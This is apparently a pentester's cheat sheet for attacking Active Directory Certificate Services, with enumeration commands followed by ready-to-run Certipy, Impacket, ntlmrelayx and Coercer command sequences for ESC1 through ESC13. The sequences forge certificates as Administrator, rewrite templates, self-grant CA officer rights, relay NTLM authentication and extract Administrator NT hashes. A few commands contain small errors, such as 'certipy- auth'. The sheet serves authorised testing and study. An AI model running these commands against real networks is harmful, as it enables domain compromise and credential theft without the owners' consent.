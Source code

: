 # Enumeration
### NetExec
Find PKI Enrollment Services in Active Directory and Certificate Templates Names
```bash
nxc ldap $IP -u $username -p $password -M adcs
```
### Certipy
Search for vulnerable certificate templates
```bash
certipy find -u $username -p $password -dc-ip $IP -vulnerable -enabled
```
List CAs, servers and search for vulnerable certificate templates
```bash
certipy find -u $username -p $password -dc-ip $IP -dns-tcp -ns $IP -debug
```
### Certify
Search for vulnerable certificate templates:
```powershell
Certify.exe find /vulnerable
```
# Attacks
## ESC1
Create a new machine account
```bash
impacket-addcomputer $domain/$username:$password -computer-name $computer_name$ -computer-pass $computer_password
```
Use ability to enroll as a normal user & provide a user defined Subject Alternative Name (SAN)
```bash
certipy req -u $computer_name$ -p $computer_password -ca $ca -target $domain -template $template -upn $username@domain -dns $domain -dc-ip $IP
```
Authenticate with the certificate and get the NT hash of the Administrator
```bash
certipy auth -pfx $pfx_file -domain $domain -username $username -dc-ip $IP
```
## ESC3
Request a certificate
```bash
certipy req -username $username -password $password -ca $ca -target $domain -template $template
```
Request a certificate on behalf of other another user
```bash
certipy req $username -password $password -ca $ca -target $domain -template User -on-behalf-of '$domain\Administrator' -pfx $pfx_file
```
Authenticate as Administrator
```bash
certipy auth -pfx administrator.pfx -dc-ip $ip
```
## ESC4
Overwrite the configuration to make it vulnerable to ESC1
```bash
certipy template -username $username -password $password -template $template -save-old -dc-ip $IP
```
Now if you run this command, it should show that the certificate is vulnerable to ESC1
```bash
certipy find -u $username -p $password -dc-ip $IP -dns-tcp -ns $IP -stdout -debug
```
## ESC6
```bash
certipy req -username administrator@$domain -password $password -ca $ca -target $domain -template $template -upn administrator@$domain
```
## ESC7
In order for this technique to work, the user must also have the `Manage Certificates` access right, and the certificate template `SubCA` must be enabled. With the `Manage CA` access right, we can fulfill these prerequisites.
If you only have the `Manage CA` access right, you can grant yourself the `Manage Certificates` access right by adding your user as a new officer.
```bash
certipy ca -ca $ca -add-officer $username -username $username@domain -password $password -dc-ip $IP -dns-tcp -ns $IP
```
Enable the `SubCA` template on the CA using the `-enable-template` parameter. By default, the `SubCA` template is enabled.
```bash
certipy ca -ca $ca -enable-template SubCA -username $username@domain -password $password -dc-ip $IP -dns-tcp -ns $IP
```
This request will be denied, but we will save the private key and note down the request ID.
```bash
certipy req -username $username@domain -password $password -ca $ca -target $IP -template SubCA -upn $username@domain
```
With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.
```bash
certipy ca -ca $ca -issue-request $request_ID -username $username@domain -password $password
```
And finally, we can retrieve the issued certificate with the `req` command and the `-retrieve <request ID>` parameter.
```bash
certipy req -username $username@domain -password $password -ca $ca -target $IP -retrieve $request_ID
```
Authenticate with the certificate and get the NT hash of the Administrator
```bash
certipy auth -pfx $pfx -domain $domain -username $username -dc-ip $IP
```
## ESC8
If there is an ADCS Server that is not on the DC and has Web Enrollement activated we might be able to exploit ESC8.
```bash
ntlmrelayx.py -t http://$domain/certsrv/certfnsh.asp -smb2support --adcs --template $template --no-http-server --no-wcf-server --no-raw-server
```
```bash
coercer coerce -u $username -p $password -l $WS_IP -t $DC_IP --always-continue
```
```bash
certipy- auth -pfx administrator.pfx
```
## ESC13
```bash
certipy req -u $username -p $password -ca $ca -target $domain -template $template -dc-ip $IP -key-size 4096
```
```bash
python3 gettgtpkinit.py -cert-pfx $pfx_file $domain/$username $ccache_file -dc-ip $IP -v
```
# Resources
- https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation
- https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-certificate-services/#adcs-enumeration
- https://vulndev.io/2023/07/01/vl-intercept-walkthrough/
- https://www.bulletproof.co.uk/blog/abusing-esc13-from-linux
- https://logan-goins.com/2024-05-04-ADCS/
- https://www.tarlogic.com/blog/ad-cs-esc7-attack/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-2/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-3/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-4/
# Tools
- https://github.com/ly4k/Certipy
- https://github.com/GhostPack/Certify
